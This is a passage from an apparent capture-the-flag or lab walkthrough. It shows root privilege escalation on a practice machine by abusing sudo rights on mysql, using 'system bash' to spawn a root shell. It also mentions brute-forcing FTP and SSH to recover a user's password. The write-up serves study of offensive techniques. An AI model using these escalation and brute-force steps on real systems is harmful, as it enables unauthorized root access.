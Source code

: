 ![image](https://user-images.githubusercontent.com/69868171/157879776-0f049d10-a2d0-4b25-a44a-cf4598ae867e.png)

More better now checking `sudo` and boom seems we can run `mysql` .

![image](https://user-images.githubusercontent.com/69868171/157879883-7e8cc76e-1203-40cf-9b14-dc44b7901764.png)

```
sudo /usr/bin/mysql
```

![image](https://user-images.githubusercontent.com/69868171/157881282-78c8ac26-da97-4345-b8ab-42802254fcad.png)

```
system id
```

We can see that we are `root` now let drop into it.

```
system bash
```

![image](https://user-images.githubusercontent.com/69868171/157881454-7628a9b3-2c3c-42fa-9bf2-574927e3976c.png)

We are rooooooooooooooooooot now let get the `proof.txt` .

```
cat proof.txt;hostname;id;whoami;ip addr
```

![image](https://user-images.githubusercontent.com/69868171/157881851-cc389fc6-6c82-4d8d-883e-b27759d67ea9.png)

### Little Extra Spicy XD

Back to our brute forcing we background when working on the target.


![image](https://user-images.githubusercontent.com/69868171/157882060-cf29458c-ef7e-43d1-aade-1176366276fe.png)

I was able to get the password for `aeolus` by brute forcing both `FTP, SSH` probably it going to take some time 30-40min .

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
